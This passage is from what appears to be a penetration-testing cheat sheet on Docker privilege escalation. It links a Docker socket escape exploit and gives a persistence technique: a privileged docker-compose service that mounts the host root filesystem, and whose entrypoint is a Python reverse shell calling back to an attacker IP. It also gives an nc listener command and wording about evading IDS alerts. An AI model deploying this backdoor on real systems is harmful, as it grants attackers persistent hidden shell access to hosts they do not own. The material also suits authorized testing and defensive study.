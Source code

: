 After that, you can investigate sensitive information in the **`/mnt/`** folders.

<br />

## Docker Socket Escape

Reference: [https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25](https://gist.github.com/PwnPeter/3f0a678bf44902eae07486c9cc589c25)

<br />

## Establish Persistence After PrivEsc

After that you invaded the docker container, you might be able to make it persistence while evading the IDS alerts by creating a docker compose file and abusing the entrypoint option to grant you a reverse shell.

Create a ~/docker-compose.yaml in the container.

You need to replace the `<image>`, `<local-ip>`, `<local-ip>` with your environment.

```yml
version: "2.1"
services:
  backdoorservice:
    restart: always
    image: <image>
    entrypoint: > 
       python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
       s.connect(("<local-ip>",<local-ip>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
       pty.spawn("/bin/sh")'
    volumes:
      - /:/mnt
    privileged: true
```

Then start listener in your local machine.

```sh
nc -lvnp 4444
```

Now run the docker compose in remote machine. You should gain a shell.

```sh
docker-compose run
```

<br />

## Amazon Elastic Container Registry (ECR) Public Gallery

### 1. Run the Docker Container

- **Retrieve a Container Image**
